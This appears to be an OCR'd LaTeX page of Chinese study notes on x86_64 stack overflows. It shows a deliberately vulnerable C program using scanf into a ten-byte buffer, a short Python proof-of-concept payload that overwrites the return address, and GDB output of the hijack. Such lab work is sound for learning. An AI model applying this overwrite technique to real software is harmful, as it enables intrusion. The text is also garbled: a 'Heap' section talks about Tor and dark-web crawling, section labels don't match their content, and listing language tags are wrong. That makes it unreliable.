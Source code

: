 \documentclass[12pt]{article}  %
\begin{document}
2. x86\_64架构采用的是小端字节序，所以存储起来刚好相反。 \par
在这里要区分，指令push，pop对rsp进行操作时，与一般情况是反的，但数据存入内存中时，还是从低地址向高地址存储的。\par
为了直观完成返回地址覆盖的实验，我使用下面程序进行调试：
\begin{lstlisting}[language=sh]
 #include <stdio.h>
 #include <string.h>
 void test(){
     char str[10];
     scanf("%s",&str);
     printf("%s\n",str);
 }
 int main(int argc,const char*argv[]){
     test();
     printf("finish test\n");
     printf("tmp\n");
     printf("jump here\n");
     return 0;
 }
\end{lstlisting}\par
构建POC为：
\begin{lstlisting}[language=c]
import os

def print_unvisible():
    str = '12345678abcdefgh\xa0\xd9\xff\xff\xff\xf7\x00\x00\xbb\x05\x40\x00\x00\x00\x00\x00'
    print str

if __name__ == "__main__":
    print_unvisible()
\end{lstlisting}\par
GDB调试过程中，重定向了IO流：
\begin{lstlisting}[language=sh]
gef➤  run <input.txt 
Starting program: /home/csober/Documents/Github/how2stack/first_fist/scanf-nsp <input.txt
12345678abcdefgh������
jump here

Program received signal SIGBUS, Bus error.
\end{lstlisting}\par
最后提示\emph{Bus error}，不知道具体原因，但实现了返回地址的覆盖，就暂时告一段落吧。\par
针对GDB调试重定向的问题，Github中给出一个有用的插件：https://github.com/Ovi3/pstdio，下次遇到必需的时候再来研究下。
\section{Heap} %
\label{sec:自动化工具}
\ \ \ Tor爬虫有两种理解，一种是指利用Tor特性中IP动态调变的优势，以不同的IP动态爬取网页信息，而不会因为单个IP频发访问遭到屏蔽；
另一种是通过Tor进入暗网，爬取暗网中的数据。
\section{Core} %
\ \ \ 这里的Core主要指的是程序运行过程意外退出，Linux系统自动生成的调试文件，可以供开发者回溯程序崩溃的原因。这个章节就来讲解Core Dumps的配置，及利用Core文件对堆栈、函数调用做分析。
\label{sec:玩转数学公式}
\end{document}
